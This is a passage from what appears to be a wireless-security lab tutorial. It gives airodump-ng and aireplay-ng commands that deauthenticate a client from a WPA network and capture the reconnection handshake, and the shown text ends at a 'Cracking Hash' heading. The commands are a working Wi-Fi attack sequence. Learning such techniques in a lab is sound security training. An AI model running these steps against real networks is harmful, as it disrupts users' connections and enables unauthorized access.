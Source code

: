![Airodump-ng_example](/assets/images/Wireless/Airodump-ng_example.png)

## Prepare our capture scenario.
```bash
airodump-ng -c 3 --essid wifu --bssid 34:08:04:09:3D:38 -w wpa wlan0mon
```

We will store the capture into "wpa.\*" files.

## Deathenticate a client
```bash
aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```

### Troubleshooting
-   Some wireless drivers ignore directed deauthentication and only respond to broadcast deauthentication. We can run the same aireplay-ng deauthentication command without the -c parameter.


## Cracking Hash
Once the client reconnects with the target AP, airodump-ng will be able to capture a handshake.

![HandShake](/assets/images/Wireless/HandShake.png)
